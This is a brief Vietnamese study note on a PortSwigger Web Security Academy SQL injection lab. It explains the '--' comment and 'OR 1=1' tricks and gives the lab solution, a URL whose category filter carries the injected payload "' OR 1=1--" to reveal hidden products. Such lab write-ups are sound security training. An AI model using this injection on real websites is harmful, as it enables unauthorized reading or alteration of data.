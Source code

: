 I. Lý thuyết
+ --: dùng để chỉ phần còn lsji của truy vấn đc xem như comment
+ OR 1=1: luôn đúng -> trả về all iterm (nên cận thận vì nó can vô tình update hoặc xóa data

II. Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
https://portswigger.net/academy/labs/launch/d9a071d8264e85184722707ff5747bbbd77963967d1d01f1b22f5dd8252f9767?referrer=%2fweb-security%2fsql-injection%2flab-retrieve-hidden-data

III. Giải
+ truy cập vào 1 mục và nhập: https://0a0400720403c0b380af71de0082002d.web-security-academy.net/filter?category=Accessories%20%27+OR+1=1--
